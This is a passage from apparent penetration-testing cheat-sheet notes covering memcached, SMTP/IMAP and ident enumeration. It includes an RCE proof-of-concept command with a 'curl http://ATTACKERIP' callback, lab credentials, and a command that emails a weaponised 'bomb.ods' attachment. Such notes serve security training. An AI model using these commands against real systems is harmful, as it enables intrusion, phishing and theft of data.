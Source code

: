 - `telnet IP 11211`
- `msf > use auxiliary/gather/memcached_extractor`
- `memcdump --servers=IP`
- `memccat --servers=IP <item1> <item2>`
- CVE-2021-33026 RCE
  - `python cve-2021-33026_PoC.py --rhost IP --rport 5000 --cmd "curl http://ATTACKERIP" --cookie "session:de43fcb3-d960-4851-b14a-f7da3993e33d"`


## SMTP / IMAP

- `sudo perl ~/Documents/scripts/smtp/smtp-user-enum.pl -M VRFY -U /home/kali/Documents/lists/common_list/usernames.txt -t IP`
- Connect to imap
  ```
  telnet IP 110
  USER sales
  PASS sales
  list         <# list messages  #>
  retr 1       <# show message 1 #>
  ```
- connect to smtp
  ```
  nc -v IP 25
  helo test
  MAIL FROM: it@postfish.off
  RCPT TO: brian.moore@postfish.off
  DATA
  [write now the body of the email]
  <CR><LF>.<CR><LF>
  QUIT
  ```
- Another IMAP connection
  ```
  nc IP 143
  tag login jonas@localhost SicMundusCreatusEst
  tag LIST "" "*"
  tag SELECT INBOX
  tag STATUS INBOX (MESSAGES)
  tag fetch 1 (BODY[1])
  ```
- `sendemail -f 'jonas@localhost' -t 'mailadmin@localhost' -s IP:25 -u 'Your spreadsheet' -m 'Here is your requested spreadsheet' -a bomb.ods`



## 113 ident

- `nc -vn IP 113`
- `ident-user-enum IP 113`
  - you can enumerate users for every port
  - > "Is an Internet protocol that helps identify the user of a particular TCP connection"
- https://book.hacktricks.xyz/pentesting/113-pentesting-ident
